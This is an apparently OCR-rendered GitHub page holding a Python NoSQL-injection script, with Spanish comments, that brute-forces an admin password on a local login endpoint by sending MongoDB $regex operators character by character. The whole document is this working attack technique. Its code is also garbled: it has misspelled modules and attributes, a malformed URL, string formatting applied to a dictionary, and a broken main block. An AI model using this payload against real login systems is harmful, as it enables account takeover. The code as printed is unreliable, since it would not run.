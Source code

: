 # NoSQLI
'''python

#!/usr/bin/python3


from pwn import * <!--# jugar con las barras de progresos-->
import requests <!--#hacer peticiones a servidores-->
import time <!--# tiempos de espera-->
import sys <!--# para poder realizar la salida del progama-->
import signal <!--# para pillar el ctrl_c-->
import string <!--# para declara toos los caracteres que quiero probar-->
 
def saliendo(sig, frame): <!--#capturando el controll c para escapar del programa-->
        print('\n\n[+] Saliendo...\n\n')
        sys.exit(1)

<!--# Capturar control C-->
signal.signal(signal.SIGINT, saliendo) <!--# cuando hagamos ctrl_c mandamos el flujo del progama a la funcion saliendo-->

login_url = "http://localhost:4000user/login"  <!--#url a la que hacer el post-->
caracteres = string.ascii_lowercase + string.asciii_uppercase + string.digits <!-- #caracteres a probar,no metemos simbolos, se puede meter-->

def nosqli():

      password = "" <!--#la creamos vacia para in metiendo los caracteres correctos-->

      p1 = log.progress("Fuerza bruta") <!--# creamos la primera barra de progreso-->
      p1.status( " Iniciando ...")      <!--# la actualizamos-->
      
      time.sleep(2)  <!--# dejamos dos segundos para q lea el usuario-->
      
      p2 = log.progress("Password")   <!--# creamos la segunda barra de progreso--> 
        
      for posicion in range (0,24):  <!--# creamos las iteraciones-->
              for caracter in caracteres:
                      post_data = {"username":"admin","password": {"$regex":"^%s%s"}} % (password,caracter) <!--#lo ponemos en raw , ^%s es que mpieza por algo, por una string -->

                      p1.status(post_data)

                      headers = {'Content-Type': 'application/json'} 
                      
                      respuesta = requsts.post(login_url, headers=headers, data=post_data)
                        
                      if "Logged in as user" in respuesta.text:
                              password += caracter
                              p2.status(password)  
                              break

main()

        nosqli()
'''
